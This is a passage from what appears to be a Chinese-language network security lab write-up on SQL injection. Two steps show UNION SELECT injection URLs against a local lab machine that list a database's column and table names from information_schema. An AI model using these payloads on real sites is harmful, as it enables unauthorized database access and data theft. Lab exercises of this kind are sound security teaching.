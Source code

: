      - f. 检索数据库中所有列名，在浏览器地址栏输入
       ```bash
       192.168.56.101/cat.php?id=0 UNION SELECT 1,table_name,3,4 FROM information_schema.columns
       ```
       ![](/网络安全/chap0x07/images/2-7-C-F-1.png)

     - g. 检索数据库中表名和列名的对应关系，在浏览器输地址栏入
       ```bash
       192.168.56.101/cat.php?id=0 UNION SELECT 1,concat(table_name,':', column_name),3,4 FROM information_schema.columns
       ```